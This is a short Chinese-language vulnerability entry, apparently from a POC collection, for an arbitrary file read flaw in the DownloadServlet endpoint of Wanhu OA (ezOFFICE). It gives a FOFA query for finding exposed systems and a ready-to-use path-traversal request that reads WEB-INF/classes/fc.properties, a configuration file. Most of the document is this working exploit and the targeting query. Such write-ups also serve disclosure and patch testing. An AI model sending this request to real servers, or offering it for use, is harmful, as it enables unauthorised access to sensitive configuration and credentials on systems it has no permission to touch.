 # 万户OA DownloadServlet 任意文件读取漏洞

## 漏洞描述

万户OA DownloadServlet接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的敏感文件，获取敏感信息

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![1](./images/202209131050540.png)

验证POC

```
/defaultroot/DownloadServlet?modeType=0&key=x&path=..&FileName=WEB-INF/classes/fc.properties&name=x&encrypt=x&cd=&downloadAll=2 
```

![2](./images/202209131050803.png)